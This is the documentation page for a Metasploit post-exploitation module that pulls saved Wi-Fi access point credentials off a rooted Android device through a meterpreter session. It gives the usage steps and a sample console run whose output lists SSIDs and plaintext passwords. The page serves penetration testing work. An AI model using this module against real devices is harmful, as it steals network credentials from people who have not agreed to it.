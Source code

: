 ## Vulnerable Application

  This post-exploitation module will extract saved wireless AccessPoint
  credentials from the target android device.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Make sure the session is **root**
  4. Do: `use post/android/gather/wireless_ap`
  5. Do: `set SESSION <session id>`
  6. Do: `run`
  7. You should be able to see the extracted bssids and passwords of wireless
     APs

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Wireless AP creds

## Example Scenario


  ```
msf5 exploit(multi/handler) > use post/android/gather/wireless_ap
msf5 post(android/gather/wireless_ap) > set session 1
session => 1
msf5 post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPA-PSK   lkjhgfdsa
 FCP_WiFi              NONE
 HomeCable             WPA-PSK   p@$$w0rd
 Troika                WPA-PSK   ika@12345
 

[*] Post module execution completed
msf5 post(android/gather/wireless_ap) >
  ```
